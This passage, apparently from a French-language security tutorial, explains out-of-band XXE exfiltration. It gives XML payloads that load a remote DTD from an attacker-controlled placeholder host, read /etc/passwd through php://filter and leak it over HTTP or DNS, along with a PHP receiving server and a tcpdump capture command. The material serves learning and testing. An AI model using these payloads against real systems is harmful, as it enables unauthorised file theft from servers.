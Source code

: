 ```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY % remote SYSTEM "http://NOTRE_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
```

Nous décodons ensuite les données en Base64.

**Serveur de Réception des Données**

Nous créons un serveur PHP pour recevoir et décoder les données :

```php
<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>
```

Nous lançons ensuite le serveur :

```bash
php -S 0.0.0.0:8000
```

Les données du fichier exfiltré apparaissent dans notre terminal.

***

#### <mark style="color:green;">Exfiltration via DNS (OOB DNS)</mark>

Plutôt que d'utiliser HTTP, nous pouvons encoder les données dans un sous-domaine et capturer les requêtes DNS avec `tcpdump` :

```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://ENCODED_DATA.NOTRE_DOMAINE.com'>">
```

Puis, nous utilisons `tcpdump` pour capturer les requêtes :

```bash
tcpdump -i eth0 udp port 53
```

Nous analysons ensuite les sous-domaines pour extraire les données.

***

#### <mark style="color:green;">Automatisation avec XXEinjector</mark>

Nous pouvons utiliser **XXEinjector** pour automatiser cette attaque.
